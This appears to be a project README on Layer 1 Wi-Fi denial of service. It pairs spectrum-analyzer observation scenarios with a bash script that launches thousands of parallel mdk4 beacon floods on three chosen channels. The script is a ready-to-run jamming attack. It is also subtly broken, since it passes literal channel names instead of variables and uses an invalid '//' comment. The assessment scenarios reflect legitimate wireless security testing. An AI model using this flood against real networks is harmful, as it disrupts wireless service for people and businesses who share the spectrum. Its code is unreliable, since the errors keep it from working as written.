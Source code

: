 # Layer 1 DOS

Layer 1 Denial of Service (DoS) assault by examining spectrum behaviour as well as a look at the assault utilizing scripting.

By ensuring the presence of the USB Wi-Fi adapter and the spectrum analyzer, we can conduct the test and observe the presence of high frequency signals across all channels. Additionally, we can detect the fluctuation of the wave in both the spectrum analyzer device and the software.

## Scenarios

Scenario 1:
By utilizing the spectrum analyzer, we can assess the frequency range of a channel and determine the level of traffic present within that particular channel.

Scenario 2:
Using the Spectrum Analyzer, we can use this test the company WLANs and test the server in order to provide a secure network.

Scenario 3:
By utilizing the spectrum analyzer, we can detect and identify unauthorized devices that are employed for the purpose of analyzing potentially illicit behaviour within a specific frequency range. This information may then be leveraged to implement measures that prevent these devices from accessing and utilizing the network.

Scenario 4:
Additionally, it was utilized to assess the areas with no signal reception and the extent of signal coverage on the specific channel.

## Script - simultaneously attacks channel 1,6,11:

#! /bin/bash
read -p “Enter interface (monitor mode) you wise to use for the attack:” interface
read -p “Enter channel you wish to attack:” channel1
read -p “Enter channel you wish to attack:” channel2
read -p “Enter channel you wish to attack:” channel3
iwconfig $interface channel $channel1 // this is additional
for count in $(seq 1 2000)
do
(mdk4 $interface b -c channel1> /dev/null)&
(mdk4 $interface b -c channel2> /dev/null)&
(mdk4 $interface b -c channel3> /dev/null)&
done
